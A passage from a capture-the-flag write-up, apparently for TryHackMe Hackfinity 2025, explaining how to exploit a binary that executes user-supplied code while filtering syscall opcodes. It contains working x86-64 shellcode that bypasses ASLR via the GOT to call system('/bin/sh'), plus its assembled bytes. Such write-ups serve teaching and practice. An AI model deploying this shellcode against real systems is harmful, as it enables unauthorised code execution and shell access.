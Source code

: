 In the decompiled view of main, we can see that the programs is allocating a new page using `mmap` (at address `0xCODE0000`, but it doesn't really matters here), while setting its permissions to `RWX` and making the page `ANONYMOUS` and `PRIVATE` (it can only be seen by current process).

Next to that, we can notice the binary asks a user input to write into that newly created memory area. The main will then check the provided data using `forbidden` and if this function returns 0, then it executes the provided data after setting the **memory permissions back to executable only**.

![main voidexec](/img/thm-hackfinity-2025/main_voidexec.png)

So, it seems we can directly inject shellcode into the program memory and it will execute it gracefully. We still have to pass the `forbidden` filter in order to do so. If we look at the filter, we notice that specific opcodes are forbidden, specifically, it forbids bytes that are parts of the `syscall` and `int 0x80` instructions wchich are used to invoke syscalls. This means we cannot inject a memory layout independant shellcode that just makes syscalls. We will have to bypass the filter...

![forbidden voidexec](/img/thm-hackfinity-2025/forbidden_voidexec.png)

This is a typical shellcode challenge. Normally, you could think of using **polymorphic shellcodes** _(shellcodes that embeds an encrypted code part, which is later decrypted by the shellcode itself)_. Though here, the memory is set back to executable only so the shellcode cannot modify itself in memory, and as the program is PIE, we cannot just call functions in order to RCE.

### Exploitation

So the idea is to inject a shellcode that would break ASLR, **which is done by retrieving the return address stored on the stack to recompute offsets**. Using this, we are able to uncover the binary memory layout and **retrieves the GOT address in the binary**. We could just read in the GOT address of `puts` (which has already being resolved previously in main by calling the associated **plt stub**). Then we would recompute the address of `system` using the provided libc binary, and finally call `system("/bin/sh")` to pop a shell.

Let's first write the shellcode in assembly, it will does what we just described:
```asm
BITS 64

mov rdi, [rsp]
add rdi, 0x2bee         ; offset from shellcode ret addr
                        ; to puts@got
mov rdx, [rdi]			; get addr of puts@got
sub rdx, 0x300e0		; offset to system in libc
xor esi, esi
mov rbx, 0x68732f2f6e69622f
push rsi
push rbx
mov rdi, rsp
push rsi
call rdx
ret
```

The we can compile it using following command:
```shell
$ nasm shellcode.S -o shellcode.bin
$ xxd -i shellcode.bin
unsigned char shellcode_bin[] = {
  0x48, 0x8b, 0x3c, 0x24, 0x48, 0x81, 0xc7, 0xee, 0x2b, 0x00, 0x00, 0x48,
  0x8b, 0x17, 0x48, 0x81, 0xea, 0xe0, 0x00, 0x03, 0x00, 0x31, 0xf6, 0x48,
  0xbb, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x2f, 0x73, 0x68, 0x56, 0x53, 0x48,
  0x89, 0xe7, 0x56, 0xff, 0xd2, 0xc3
};
unsigned int shellcode_bin_len = 42;
```
